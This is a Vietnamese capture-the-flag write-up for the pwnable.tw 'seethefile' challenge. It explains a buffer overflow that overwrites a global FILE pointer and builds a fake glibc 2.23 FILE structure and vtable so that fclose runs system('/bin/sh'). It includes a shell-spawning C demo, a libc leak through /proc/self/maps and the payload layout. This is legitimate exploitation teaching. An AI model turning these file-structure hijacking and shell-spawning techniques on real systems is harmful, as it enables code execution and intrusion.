




# [pwnable.tw] - seethefile



## A. CHALLENGE 

### [1] Binary Mitigations. 

- Bài cho file thực thi và thư viện => pwninit patch thư viện vào file, kiểm tra thông tin cơ bản của file.



> Chương trình 32-bit có NX enabled nên không có segment có cả quyền write và execve. Kiểm tra version của thư viện được cung cấp là libc-2.23 .

## B. OVERVIEW

-  Chương trình cho phép mở, đọc và ghi ra màn hình nội dung của các file có trên server trừ file flag.txt.



- Ba struct liên quan đến thao tác với FILE trong C: 
    * [_IO_FILE_plus](https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/libioP.h#L342)
    ```c
    struct _IO_FILE_plus
    {
    _IO_FILE file;
    const struct _IO_jump_t *vtable;
    };
    ```
    * [_IO_FILE](https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/libio.h#L241)
    ```c
    struct _IO_FILE {
    int _flags;        /* High-order word is _IO_MAGIC; rest is flags. */
    #define _IO_file_flags _flags

    /* The following pointers correspond to the C++ streambuf protocol. */
    /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
    char* _IO_read_ptr;    /* Current read pointer */
    char* _IO_read_end;    /* End of get area. */
    char* _IO_read_base;    /* Start of putback+get area. */
    char* _IO_write_base;    /* Start of put area. */
    char* _IO_write_ptr;    /* Current put pointer. */
    char* _IO_write_end;    /* End of put area. */
    char* _IO_buf_base;    /* Start of reserve area. */
    char* _IO_buf_end;    /* End of reserve area. */
    /* The following fields are used to support backing up and undo. */
    char *_IO_save_base; /* Pointer to start of non-current get area. */
    char *_IO_backup_base;  /* Pointer to first valid character of backup area */
    char *_IO_save_end; /* Pointer to end of non-current get area. */

    struct _IO_marker *_markers;

    struct _IO_FILE *_chain;

    int _fileno;
    #if 0
    int _blksize;
    #else
    int _flags2;
    #endif
    _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

    #define __HAVE_COLUMN /* temporary */
    /* 1+column number of pbase(); 0 is unknown. */
    unsigned short _cur_column;
    signed char _vtable_offset;
    char _shortbuf[1];

    /*  char* _save_gptr;  char* _save_egptr; */

    _IO_lock_t *_lock;
    #ifdef _IO_USE_OLD_IO_FILE
    };
    ...
    ...
    ```
    * [_IO_jump_t](https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/libioP.h#L307)
    ```c
    struct _IO_jump_t
    {
        JUMP_FIELD(size_t, __dummy);
        JUMP_FIELD(size_t, __dummy2);
        JUMP_FIELD(_IO_finish_t, __finish);
        JUMP_FIELD(_IO_overflow_t, __overflow);
        JUMP_FIELD(_IO_underflow_t, __underflow);
        JUMP_FIELD(_IO_underflow_t, __uflow);
        JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
        /* showmany */
        JUMP_FIELD(_IO_xsputn_t, __xsputn);
        JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
        JUMP_FIELD(_IO_seekoff_t, __seekoff);
        JUMP_FIELD(_IO_seekpos_t, __seekpos);
        JUMP_FIELD(_IO_setbuf_t, __setbuf);
        JUMP_FIELD(_IO_sync_t, __sync);
        JUMP_FIELD(_IO_doallocate_t, __doallocate);
        JUMP_FIELD(_IO_read_t, __read);
        JUMP_FIELD(_IO_write_t, __write);
        JUMP_FIELD(_IO_seek_t, __seek);
        JUMP_FIELD(_IO_close_t, __close);
        JUMP_FIELD(_IO_stat_t, __stat);
        JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
        JUMP_FIELD(_IO_imbue_t, __imbue);
    #if 0
        get_column;
        set_column;
    #endif
    };
    ```
- `JUMP_FIELD` là macro có hai tham số, tham số đầu tiên là `type name` và tham số sau là `variable name`. 
- Các `variable name` này chứa các con trỏ hàm khác nhau, chúng sẽ được gọi tới các con trỏ hàm tương ứng trong quá trình thao tác IO bằng cách sử dụng các hàm cấu trúc FILE. 
> Vì vậy, nếu chúng ta tạo `fake struct _IO_jump_t` tùy chỉnh và trỏ mục nhập của pointer `*vtable` từ `_IO_FILE_plus` vào đó, chúng ta có thể thực thi mã tùy ý.

- Code mô tả khi ghi đè các biến trong vtable thì khi redirect sẽ gọi tới giá trị bị ghi đè.

```c
// gcc -m32 test.c -o test

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void* vtable[] = {
    NULL, //    JUMP_FIELD(size_t, __dummy);
    NULL, //    JUMP_FIELD(size_t, __dummy2);
    NULL, //    JUMP_FIELD(_IO_finish_t, __finish);
    NULL, //    JUMP_FIELD(_IO_overflow_t, __overflow);
    NULL, //    JUMP_FIELD(_IO_underflow_t, __underflow);
    NULL, //    JUMP_FIELD(_IO_underflow_t, __uflow);
    NULL, //    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    NULL, //    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    NULL, //    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    NULL, //    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    NULL, //    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    NULL, //    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    NULL, //    JUMP_FIELD(_IO_sync_t, __sync);
    NULL, //    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    NULL, //    JUMP_FIELD(_IO_read_t, __read);
    NULL, //    JUMP_FIELD(_IO_write_t, __write);
    NULL, //    JUMP_FIELD(_IO_seek_t, __seek);
    system,  // JUMP_FIELD(_IO_close_t, __close);
    NULL, //    JUMP_FIELD(_IO_stat_t, __stat);
    NULL, //    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    NULL  //    JUMP_FIELD(_IO_imbue_t, __imbue);
};

int main(int argc, char** argv) {
    // Creates a file and overwrites the vtable field in the FILE struct
    FILE *fp = fopen("/dev/null", "r");
    size_t *vtable_addr = ((void *) fp) + sizeof(FILE);

    *vtable_addr = (size_t *)vtable;

    // Moves "/bin/sh\x00" to the start of the file pointer.
    // When system is called, it will interpret the FILE* as a char*, which
    // means that the interpreted string will be "/bin/sh" due to the null byte.
    strcpy(fp, "/bin/sh\x00");

    // Calls system with the FILE pointer as an argument. This should create
    // a shell.
    fclose(fp);
    return 0;
}
```

### [1] Vulnerability Analysis.

- Bug bài này nằm ở option 5, khi ta thoát chương trình cho t nhập tên vào biến `name` sử dụng %s => `Buffer Overflow` và có thể ghi đè các biến phía sau.

```c
      case 5:
        printf("Leave your name :");
        __isoc99_scanf("%s", name);             // BUG || overflow name [global variable]
                                                //  /* can overwrite fp */
        printf("Thank you %s ,see you next time\n", name);
        if ( fp )
          fclose(fp);
        exit(0);
        return result;
```

- Biến `name` khi tràn sẽ ghi đè lên con trỏ `*fp` của cấu trúc FILE.

```c
.bss:0804B080 ; char filename[64]
.bss:0804B080 filename        db 40h dup(?)           ; DATA XREF: openfile+53↑o
.bss:0804B080                                         ; openfile+6D↑o ...
.bss:0804B0C0                 public magicbuf
.bss:0804B0C0 ; char magicbuf[416]
.bss:0804B0C0 magicbuf        db 1A0h dup(?)          ; DATA XREF: openfile+33↑o
.bss:0804B0C0                                         ; readfile+17↑o ...
.bss:0804B260                 public name
.bss:0804B260 ; char name[32]
.bss:0804B260 name            db 20h dup(?)           ; DATA XREF: main+9F↑o
.bss:0804B260                                         ; main+B4↑o
.bss:0804B280                 public fp
.bss:0804B280 ; FILE *fp
.bss:0804B280 fp              dd ?                    ; DATA XREF: openfile+6↑r
.bss:0804B280                                         ; openfile+AD↑w ...
.bss:0804B280 _bss            ends
```

## C. EXPLOITATION

- Ý tưởng khai thác của bài này là ta fake cấu trúc *vtable của pointer `*fp` và khi option-5 được gọi thì tiến hành gọi `fclose(fp);`. Khi đó hàm fclose sẽ thực sự gọi đến trường `__close` trong cấu trúc `*vtable fake` do chúng ta kiểm soát với đối số là pointer `*fp`. Vậy thì để getshell ta cần:
    + Thực hiện leak libc để lấy địa chỉ hàm `system`.
    + Tạo 1 struc `_IO_FILE_plus fake` - `*fp` fake với struct `*vtable` fake có trường `__close` thực chất là địa chỉ hàm `system` và `*fp` là pointer chỉ tới vùng nhớ chứa chuỗi `"/bin/sh\x00"`.
### [1] Leak LIBC.

- Tiến hành leak libc sử dụng đọc địa chỉ của chương trình được map và lưu ở file `/proc/self/maps`

```python
### get libc base address
openfile(b"/proc/self/maps")
readfile()
readfile()  # libc's entry appears in the second set of 400 characters:

leak = writefile()
leak = leak.split(b"\n")
leak = leak[-1].split(b"-")
libc.address = int(leak[0].decode(), 16)

log.info("Address LIBC base: " + hex(libc.address))
log.info("Address of system: " + hex(libc.symbols["system"]))
```

### [2] Fake *vtable FILE STRUCT.

- Mô tả lại `overwrite+fake struct` ở dạng bảng:

|    ADDRESS                     |                 VALUE                         |
| :-------------:                | :-------------------------------------------: |
| 0x0804B260 (name)              | b"A" * 0x20                                   | 
| 0x0804B280 (fp)                | 0x0804B290                                    | 
| 0x0804B284                     | p32(libc.sym["system"]) <=> `*vtable.__fclose`| 
| 0x0804B288                     | p32(0)                                        | 
| 0x0804B28c                     | p32(0)                                        | 
| 0x0804B290                     | b"/bin"       <=> `file.flags`                | 
| 0x0804B294                     | b"/sh\x00"    <=> `file._IO_read_ptr`         |
| 0x0804b298                     | `file._IO_read_end`                           | 
| 0x0804b29c                     | `file._IO_read_base`                          |
| 0x0804b2a0	                 | "\x00\x00\x00\x00" * 14                       |
| 0x0804b2d8                     | 0x804BA00     <=> `file._lock`                |
| 0x0804b2dc	                 | "\x00\x00\x00\x00" * 14                       |
| 0x0804b324                     | p32(0x804B284 - 0x44) <=> `file.*vtable`      |

- Có một vài lưu ý khi ghi đề `*fp` và tạo fake struct `*vtable`:
    * `fp->_lock` sẽ bị kiểm tra, bypass check này chỉ cần ghi đè `fp->_lock` thành 1 địa chỉ có giá trị và có thể tham chiếu được.
    * Giá trị `0x44` là tổng offset của các field trước `_close` trong *vtable.


## D. FLAG

- Tiến hành viết file [exp.py](./exp.py) và khai thác.

- Khi lấy được shell trên server file flag thuộc người dùng khác so với file có lỗ hổng nên ta chạy file [get_flag.c](./get_flag.c) để đọc flag.



